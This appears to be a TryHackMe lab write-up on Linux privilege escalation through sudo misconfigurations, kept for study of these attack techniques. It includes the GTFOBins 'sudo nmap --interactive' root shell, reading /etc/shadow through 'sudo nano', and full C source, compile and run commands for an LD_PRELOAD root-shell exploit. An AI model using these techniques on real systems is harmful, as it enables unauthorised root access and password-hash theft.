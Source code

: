 ```yaml
---
layout: post
title: THM Linux Privilege Escalation - sudo
subtitle: Misusing sudo
date: 2025-04-05
tags:
  - pentest
  - tryhackme
  - redteam
  - linux
  - privesc
  - sudo
cover-img: /assets/img/sudo-priv-esc.png
thumbnail-img: /assets/img/linux-priv-esc.png
comments: true
mathjax: true
---
```

# Nature of the Task

In this task the goal is to use use `sudo` in a variety of ways to access information that would normally be out of limits to a low privilege user.

# A bit of `sudo` recon...

The first thing to do is to to run `sudo -l` as the `karen` (low privilege) user to see what's available to us:

```sh
$ sudo -l
Matching Defaults entries for karen on ip-10-10-92-255:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-92-255:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano
```

We can run 3 programs with `sudo`, namely `find`, `less`, and `nano`.

That answers the first question! Hooray!

# Capture the Flag! `find` and `cat`

The next question is to obtain the contents of `flag2.txt`. We can simply run `find` to locate the file on the system, we don't even need to run it with `sudo`!

```sh
$ find / -name "flag2.txt" 2>/dev/null
/home/ubuntu/flag2.txt
```
We can simply `cat /home/ubuntu/flag2.txt` to obtain our flag. No `sudo` needed!

# GTFOBins! `sudo nmap`

The next question requires a bit of research. *If* we had `sudo` access to `nmap`, how could we leverage this to obtain a `root` shell?

Let's head over to [GTFOBins](https://gtfobins.github.io/) and see what being able to run `nmap` with `sudo` could give us!

![[GTFOBins-nmap-search.png]]

Hmmm.... Shell? Sudo? Looks promising!

![[GTFOBins-nmap-sudo.png]]

So, looks like `sudo nmap --interactive` is enough to give us an interactive `root` shell.

# Hashed Passwords

Since we can run `sudo nano` we can simply open `/etc/shadow` and see the hash of Frank's password!

![[nano-etc-shadow-linux-priv-esc.png]]

# `LD-PRELOAD`

If our `sudo -l` had found that `env_keep+=LD_PRELOAD` we could have leveraged this to get a root shell. On either the target or our attacking machine, we'd need to compile the following C source code  (`shell.c`):

```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```

We'd compile with the following parameters:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

We'd need to get it on the target in a writable directory that we could execute from, and then we'd run it as follows:

```sh
sudo LD_PRELOAD=/home/user/ldpreload/shell.so <any binary we can run with sudo>
```

# Recap and Takeaways

- `sudo -l` is your first stop in any privilege escalation attempt — it reveals what commands can be run as root.
    
- You don’t always need `sudo` to find flags; simple tools like `find` and `cat` still go a long way.
    
- GTFOBins is an essential resource — it tells you exactly how to weaponize `sudo` permissions for common binaries like `nmap`.
    
- Tools like `nano` and `less` may seem harmless, but with `sudo`, they let you read protected files like `/etc/shadow`.
    
- The `LD_PRELOAD` technique is powerful — if environment variables are preserved with `sudo`, it can be used to inject a shared library and pop a root shell.